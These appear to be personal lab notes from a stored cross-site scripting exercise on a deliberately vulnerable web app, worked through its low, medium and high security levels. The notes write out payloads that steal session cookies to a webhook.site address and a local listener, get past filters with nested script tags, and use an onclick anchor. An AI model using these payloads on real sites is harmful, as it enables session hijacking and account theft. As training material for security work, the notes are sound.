 It's actually a very flexible vulnerability and can be used to chain other issues together.
Stored cross site scripting is much more powerful and the payload is stored in a database and than retrieved later.

Set up containers for our testing and this allows us to have multiple sessions open and test across different user accounts.

Mentor uses it for testing authorization issues:
to see if we can update Bob's account using Alice's session token.

But here will check if the CSS is indeed stored and not just showing up for the same user that post the payload.

Search Firefox containers
https://addons.mozilla.org/en-US/firefox/addon/multi-account-containers/

<h2>Objective</h2>
Redirect everyone to a web page of your choosing.

Webhooksite
```
https://webhook.site/0dc98dcb-0415-4fe1-abe8-11d6783e3f2e
```

>[!important] Security is Set to Low

Will Fire up the BurpSuite
command: 
```
<h1>Test</h1>
```
we do have html injection here and it worked
![[Pasted image 20231011192222.png]]


```
<script>prompt(1)</script>
```
Now let's prompt the cookie and than send it the webhook
```
<script>prompt(document.cookie)</script>
```
We are able to get the cookie so now we can send it to our site.
![[Pasted image 20231011192702.png]]


```
<script>var i = new Image; i.src="https://webhook.site/0dc98dcb-0415-4fe1-abe8-11d6783e3f2e?"+document.cookie;</script>
```
We have some kind of character limit so we can use dev tool or burp suite will go with dev tool for now. Increased the limit from 50 to 250
![[Pasted image 20231011193112.png]]
![[Pasted image 20231011193127.png]]


>[!important] Let's now change the level to medium and will see if any check are being happening now:

After testing everything in both the fields when i go through the code and got to know that
the checks happening in name and message are different as in the name field they are not checking the starting tag and replacing it but the things are different in the message field.

So i decided to go with the name tag at the moment.
```
<scr<script>ipt>prompt(1)</script>
```
![[Pasted image 20231011194916.png]]

Got the prompt and now will simply redirect it but this time i will host the server and send the request there.
```
<scr<script>ipt>window.location="http://127.0.0.1:4444/?"+document.cookie;</script>
```
![[Pasted image 20231011195628.png]]
It get's redirected 


>[!important] Let's change the level to High

I have done testing but it's regex and we can't beat it so we should simply play along with it. But i am saying is that is checking script tag will simply use another tag
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
![[Pasted image 20231011203322.png]]
```
<a onclick="alert(1)" style=display:block>test</a>
```
![[Pasted image 20231011203432.png]]
yes it's working now will redirect the website


```
<a href="http://127.0.0.1:4445/?cookie="+document.cookie" onclick="location.href" style=display:block>test</a>
```
![[Pasted image 20231011204531.png]]

![[Pasted image 20231011204437.png]]


Resources:
https://www.youtube.com/watch?v=P1I9UGpGdrU
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet